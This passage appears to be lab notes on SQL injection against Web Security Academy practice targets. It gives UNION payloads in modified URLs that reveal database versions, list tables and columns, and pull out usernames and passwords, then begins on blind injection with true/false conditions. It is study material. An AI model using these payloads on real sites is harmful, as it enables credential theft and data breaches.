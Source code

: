 For example, you could use a `UNION` attack with the following input:

`' UNION SELECT @@version--`

Regular:

`https://ac0b1f1d1f62d851c04a61770014009b.web-security-academy.net/filter?category=Gifts`

Modified:

`https://ac0b1f1d1f62d851c04a61770014009b.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

### Listing the database contents on non-Oracle databases

Regular:

`https://ac021f0e1ff14420c0f12314002b00a4.web-security-academy.net/filter?category=Corporate+gifts`

Modified:

See all available tables:

`https://ac021f0e1ff14420c0f12314002b00a4.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

Find the table that you are interested in. Then change the following query with the table (mine was "users\_ddvsxa"):

`https://ac021f0e1ff14420c0f12314002b00a4.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name=%27users_ddvsxa%27--`

Find the names of the columns containing what you are looking for (usernames/passwords). For me, it was **username\_czehbi** and **password\_jwcmoz** Then modify the following query:

`https://ac021f0e1ff14420c0f12314002b00a4.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+username_czehbi,+password_jwcmoz+FROM+users_ddvsxa--`

### Equivalent to information schema on Oracle <a href="#equivalent-to-information-schema-on-oracle" id="equivalent-to-information-schema-on-oracle"></a>

You can list tables by querying `all_tables`:

`SELECT * FROM all_tables`

And you can list columns by querying `all_tab_columns`:

`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

### Blind SQL injection by triggering conditional responses

Use `AND` to check if condition is inject-able:

`…xyz' AND '1'='1 //True`

`…xyz' AND '1'='2 //False`

Based off the True and False above, you then give statements to test out what is available. To verify if there is a table called **users**, you would do the following:
